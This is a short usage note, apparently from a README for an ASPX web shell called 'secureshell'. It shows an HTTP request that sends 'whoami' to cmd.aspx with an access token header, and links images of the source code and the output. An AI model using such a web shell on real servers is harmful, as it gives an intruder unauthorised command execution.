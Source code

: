 How to use

```
GET /path/secureshell/cmd.aspx?cmd=whoami HTTP/1.1
Host: <your host>
X-TOKEN: 9ebc314e6dacf0a6ab1c08c444b3deb50338b188a70cad862a6482d1ae0e5be2
Content-Length: 4
```
After get path, we need post via UI. Finally, result:

![image](https://user-images.githubusercontent.com/24661746/131246833-a4a134a1-66fb-453f-b857-886c49479d5a.png)
